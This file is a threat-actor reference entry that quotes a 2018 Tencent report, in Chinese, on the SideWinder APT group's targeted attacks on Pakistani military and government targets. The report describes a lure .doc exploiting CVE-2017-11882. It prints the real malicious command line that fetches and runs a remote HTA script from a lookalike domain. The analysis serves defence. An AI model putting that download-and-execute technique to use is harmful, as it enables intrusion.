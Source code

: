 # Reference for threat actor for "SideWinder, Rattlesnake"

**Title**: SideWinder“响尾蛇”APT组织（T-APT-04)：针对南亚的定向攻击威胁

**Source**: https://s.tencent.com/research/report/479.html

## Content
SideWinder“响尾蛇”APT组织（T-APT-04)：针对南亚的定向攻击威胁 产品中心产品中心基础安全T-Sec 主机安全容器安全服务 TCSST-Sec Web应用防火墙T-Sec 云防火墙T-Sec 安全运营中心T-Sec iOA零信任安全管理系统业务安全T-Sec 天御 验证码T-Sec 天御 文本内容安全T-Sec 天御 视频内容安全T-Sec 全栈式风控引擎T-Sec 手游安全T-Sec 小程序安全T-Sec 应用合规平台数据安全T-Sec 堡垒机T-Sec 数据安全审计T-Sec 云访问安全代理T-Sec 凭据管理系统T-Sec 密钥管理系统T-Sec 云加密机T-Sec 数据安全治理中心安全服务T-Sec 安全专家服务一站式等保服务T-Sec 安全托管服务渗透测试服务应急响应服务重要时期安全保障服务安全攻防对抗服务了解全部安全产品→解决方案解决方案通用解决方案等保合规安全解决方案直播安全解决方案数据安全解决方案品牌保护解决方案高防云主机安全解决方案腾讯安心平台解决方案行业场景方案游戏安全场景方案电商安全场景方案智慧零售场景方案智慧出行场景方案安全专项解决方案勒索病毒专项解决方案重大保障安全解决方案 NEW 最新动态威胁研究合作伙伴更多更多关于我们腾讯安全介绍荣誉认证帮助中心帮助文档考试认证在线课堂证书查询联系我们产品方案咨询寻求市场合作友情链接腾讯云未登录登录可以享受精准服务推荐线上快捷下单海量资源流量立即登录威胁研究正文SideWinder“响尾蛇”APT组织（T-APT-04)：针对南亚的定向攻击威胁2018-05-23 06:58:59近日腾讯御见威胁情报中心捕获到了SideWinder”响尾蛇”APT组织的一个最新攻击样本，该APT组织疑似来自印度，最早活跃可追溯到2012年。主要针对巴基斯坦等南亚国家的军事目标进行定向攻击。
1、 概况


         近日腾讯御见威胁情报中心捕获到了SideWinder”响尾蛇”APT组织的一个最新攻击样本，该APT组织疑似来自印度，最早活跃可追溯到2012年。主要针对巴基斯坦等南亚国家的军事目标进行定向攻击。









本次捕获的诱饵文档中的关键字主要有“Government of Pakistan
Economic Affairs Division”(巴基斯坦政府经济事务部)、“2018
bilateral training programme plan for pakistan in china”（2018巴基斯坦双边培训计划），因此我们推测此次主要是在对南亚进行定向攻击。


         





（图1 攻击流程图）


2、载荷投递


         该组织使用了一份名为《2018 Bilateral Training in
China.doc》的诱饵文档进行载荷投递。该文档使用了CVE-2017-11882漏洞。当漏洞触发后，公式编辑器进程中的shellcode会将命令行改为“caller.exe
http://www.google.com.d-dns.co/includes/686a0ea5/-1/1223/da897db0/final.hta”，接着shelloce会调用mshtml.dll中RunHTMLApplication，RunHTMLApplication会调用GetCommandLineW API取出命令行中的url,从而将final.hta中的脚本给执行起来。









（图2诱饵文档）








